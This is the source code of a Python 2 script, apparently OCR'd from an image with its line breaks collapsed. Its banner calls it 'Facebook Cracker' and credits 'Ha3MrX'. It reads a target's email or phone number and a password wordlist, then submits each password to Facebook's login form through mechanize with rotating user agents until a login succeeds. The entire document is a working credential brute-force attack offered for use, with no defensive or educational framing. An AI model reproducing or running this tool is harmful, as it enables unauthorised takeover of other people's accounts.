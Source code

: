#!/usr/bin/env python# -*- coding: UTF-8 -*- import sysimport mechanizeimport cookielibimport random email = str(raw_input("Enter the Facebook Username (or) Email (or) Phone Number : ")) passwordlist = str(raw_input("Enter the wordlist name and path : ")) login = 'https://www.facebook.com/login.php?login_attempt=1' useragents = [('Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0','Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')] def main():	global br	br = mechanize.Browser()	cj = cookielib.LWPCookieJar()	br.set_handle_robots(False)	br.set_handle_redirect(True)	br.set_cookiejar(cj)	br.set_handle_equiv(True)	br.set_handle_referer(True)	br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)	welcome()	search()	print("Password does not exist in the wordlist") 		def brute(password):	sys.stdout.write("\r[*] Trying ..... {}\n".format(password))	sys.stdout.flush()	br.addheaders = [('User-agent', random.choice(useragents))]	site = br.open(login)	br.select_form(nr = 0)	br.form['email'] = email	br.form['pass'] = password	sub = br.submit()	log = sub.geturl()	if log != login and (not 'login_attempt' in log):			print("\n\n[+] Password Find = {}".format(password))			raw_input("ANY KEY to Exit....")			sys.exit(1) 			def search():	global password	passwords = open(passwordlist,"r")	for password in passwords:		password = password.replace("\n","")		brute(password) 		#welcome def welcome():	wel = """ +=========================================+ |.......... Facebook Crack ...........| +-----------------------------------------+ | #Author: Ha3MrX | |	 Version 1.0 | 	| https://www.youtube.com/c/HA-MRX | +=========================================+ |.......... Facebook Cracker ...........| +-----------------------------------------+\n\n"""	total = open(passwordlist,"r")	total = total.readlines()	print wel 	print " [*] Account to crack : {}".format(email)	print " [*] Loaded :" , len(total), "passwords"	print " [*] Cracking, please wait ...\n\n" 	if __name__ == '__main__':	main()
